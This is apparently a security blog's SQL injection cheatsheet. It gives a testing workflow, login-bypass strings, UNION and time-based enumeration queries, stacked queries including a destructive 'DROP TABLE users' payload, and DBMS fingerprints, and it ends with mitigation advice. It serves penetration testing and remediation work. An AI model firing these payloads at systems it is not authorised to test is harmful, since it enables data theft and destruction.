 +++
title = 'SQL Injection Cheatsheet'
date = '2024-01-01'
draft = false
description = 'Payload patterns, testing workflow, and remediation guidance for SQL injection vulnerabilities.'
tags = ['sql-injection', 'web-security', 'cheatsheet']
categories = ['cheatsheets']
+++

# SQL Injection Cheatsheet

## Test Workflow

1. **Identify entry points**: parameters, headers, cookies, JSON bodies.
2. **Baseline request**: repeat the request and capture the normal response for comparison.
3. **Break the query**: start with a single quote `'` or double quote `"` to look for syntax errors.
4. **Confirm injection**: use logic tests such as `AND 1=1` (true) vs `AND 1=2` (false).
5. **Escalate**: move from time-based to union-based or stacked queries depending on DBMS.

## Quick Payloads

```http
' OR '1'='1' -- 
" OR "1"="1" -- 
') OR '1'='1' -- 
admin' -- 
admin' #
```

### Numeric Context
```http
1 OR 1=1
1 UNION ALL SELECT NULL
1 ORDER BY 5--
```

### Boolean Tests
```http
1 AND 1=1
1 AND SLEEP(5)
1 AND (SELECT 1 FROM pg_sleep(5))
```

## Union Enumeration

1. **Count columns**: `ORDER BY 1`, `ORDER BY 2`, increment until error.
2. **Match types**: `UNION ALL SELECT NULL,NULL` etc.
3. **Extract data**: replace `NULL` with payloads like `@@version`, `database()`, or `current_user`.

```http
1 UNION ALL SELECT @@version, user()
1 UNION ALL SELECT NULL, table_name FROM information_schema.tables
```

## Time-Based Enumeration

```http
1 AND SLEEP(5)
1 AND (SELECT CASE WHEN (SUBSTRING(user(),1,1)='r') THEN SLEEP(5) ELSE 0 END)
'; WAITFOR DELAY '0:0:5'--
```

## Stacked Queries

```http
'; DROP TABLE users; --
'; INSERT INTO log_table(user, ts) VALUES ('tester', NOW()); --
```

> Only available when the database driver supports multiple statements.

## Detection Cheatcodes

- Check `Content-Length` differences between responses.
- For blind cases, use time or response length changes.
- Monitor HTTP status codes (500 vs 200) during tests.

## DBMS Fingerprints

| Indicator | Likely DBMS |
|-----------|-------------|
| `@@version`, `sysobjects` | SQL Server |
| `information_schema.tables` | MySQL/PostgreSQL |
| `DUAL`, `FROM dual` | Oracle |
| `sqlite_master` | SQLite |

## Mitigation Reminders

- Parameterized queries or stored procedures only.
- Input validation and allow lists (do not rely on blacklist).
- Use least privilege DB accounts.
- Centralize error handling to avoid leaking stack traces.

---

*Always capture before/after evidence and coordinate fixes with developers and database administrators.*

